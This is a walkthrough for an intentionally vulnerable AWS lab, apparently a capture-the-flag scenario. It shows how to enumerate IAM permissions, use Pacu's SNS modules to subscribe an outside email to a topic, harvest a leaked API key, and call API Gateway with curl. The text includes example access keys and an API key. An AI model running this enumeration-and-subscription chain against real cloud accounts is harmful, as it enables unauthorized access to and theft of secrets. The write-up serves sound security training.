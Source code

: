 # SNS_Secrets Walkthrough

## Summary

In this scenario, you are provided with AWS credentials. You need to enumerate permissions and discover you can list and subscribe to SNS topics. You then use Pacu's new modules "sns__enum" and "sns__subscribe" to subscribe to the topic. You will receive an email from the topic with an API Key as a debug message. Then, use the AWS CLI to enumerate the API Gateways to find the API Gateway path, method, stage, and resource. Finally, do a curl request with the API key to get the final flag.

## Video Walkthrough
[![SNS_Secrets Video Walkthrough](https://i9.ytimg.com/vi/LBkuZa6niR0/mqdefault.jpg?v=665d1bd4&sqp=CIiU97IG&rs=AOn4CLAyCbeb1g5M58sdghxtQlC_dZECLw)](https://www.youtube.com/watch?v=LBkuZa6niR0)

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an Access Key ID and Secret Access Key for an IAM role. These allow you to interact with the AWS account from the IAM role using the CLI (Command Line Interface). You can set up an IAM profile with this command:

```bash
aws configure --profile sns-secrets
```

You will then be prompted for the Access Key ID, Secret, and Region. Provide the keys you received after launching the scenario. Below is an example (your keys will be different.)  

```bash
AWS Access Key ID: AKIA2GIZ2CSU6NO2YIXU
AWS Secret Access Key: SYpZBG++MXkmdvmUL614A4XAAs9L88QRrMOBhqZ9
Default region name: us-east-1
Default output format [None]:
```

Finally, you can confirm access by running the AWS equivalent of “whoami”: 

```bash
aws sts get-caller-identity --profile sns-secrets 
```

This should return the UserId, Account, and ARN for the role to verify you have access. 

### Discovering Permissions

Now that we have access to an IAM user in the AWS environment, we need to figure out what permissions we have. This can be done using the AWS CLI. First, we need to see what policies are connected to our user: 
(Note: The username can be found in the output of the “aws sts get-caller-identity” command we ran previously). 

```bash
aws iam list-user-policies --user-name [UserName] --profile sns-secrets
```

This command will return the policy name for our account. We can further enumerate this policy: 

```bash
aws iam get-user-policy --user-name [UserName] --policy-name [PolicyName] --profile sns-secrets 
```

The output of this command provides us with our policy; note our IAM User has permissions related to SNS, IAM, and API Gateway. 

### Subscribing to SNS

Amazon Simple Notification Service (SNS) is a managed messaging service that enables you to send notifications to subscribers using various methods like email, SMS, and HTTP. It's often used for alerting, sending updates, and integrating different systems by delivering messages reliably and quickly. It's important to limit SNS access to specific users to ensure the security and integrity of your messaging system. Unrestricted access could lead to unauthorized users sending spam, triggering unnecessary alerts, or accessing sensitive information.

We can enumerate SNS with Pacu. Pacu is an open-source AWS exploitation framework, designed for offensive security testing against cloud environments. Instructions for installing Pacu are out-of-scope for this walkthrough but you can refer to the [official Pacu documentation on Github](https://github.com/RhinoSecurityLabs/pacu). Once Pacu is installed and a session is configured, you can import the profile you configured: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > import_keys sns-secrets
```

There are two modules for interacting with SNS; you can find these by searching within Pacu: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > search sns

[Category: ENUM]

    List and describe Simple Notification Service topics

  sns__enum

[Category: LATERAL_MOVE]

    Subscribe to a Simple Notification Service (SNS) topic

  sns__subscribe
```

Let’s begin with the “sns__enum” module. We can get more information with this command:

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__enum
```

The module will attempt to list and gather information from Simple Notification Service topics. Let’s run it and see if it identifies an SNS topic we can access. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__enum --region us-east-1
```

We can see the topic by typing “data” to access the Pacu database for our session. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > data
```

Now that we have the full ARN of the SNS Topic, let’s check out the sns__subscribe module: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__subscribe
```

This module will attempt to subscribe to a topic based on the ARN via an email address. We need to provide it with the topic and an email. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__subscribe --topics [TopicARN] --email [Email Address]
```

After subscribing, you will need to go to your email and confirm the subscription: 

![Confirm Subscription](confirm-subscription.png)

### Accessing the API Gateway

After subscribing to the topic, you will receive an SNS Message that leaks an API Key for a API Gateway. 

![Leaked API Key](leaked-apikey.png)

Now that we have an API Key for an API Gateway, we need to identify the full URL to access the gateway. First, let’s try and retrieve basic information on the API: 

```bash
aws apigateway get-rest-apis --profile sns-secrets --region us-east-1
```

This provides us with the ID of the API Gateway. Using this ID we can get the stages and resources: 

```bash
aws apigateway get-stages --rest-api-id [API ID] --profile sns-secrets --region us-east-1
aws apigateway get-resources --rest-api-id [API ID] --profile sns-secrets --region us-east-1
```

These commands provide us with the following information:

- Stage Name
- Resource Path

![API Gateway Information](apigateway-info.png)

This information allows us to retrieve the full URL to the API Gateway:

```bash
https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]
```

Finally, we can use a CURL request with the API Key to retrieve the final flag: 

```bash
curl -X GET \
  'https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]' \
  -H 'x-api-key: 45a3da610dc64703b10e273a4db135bf'
```

![Final Flag](final-flag.png)

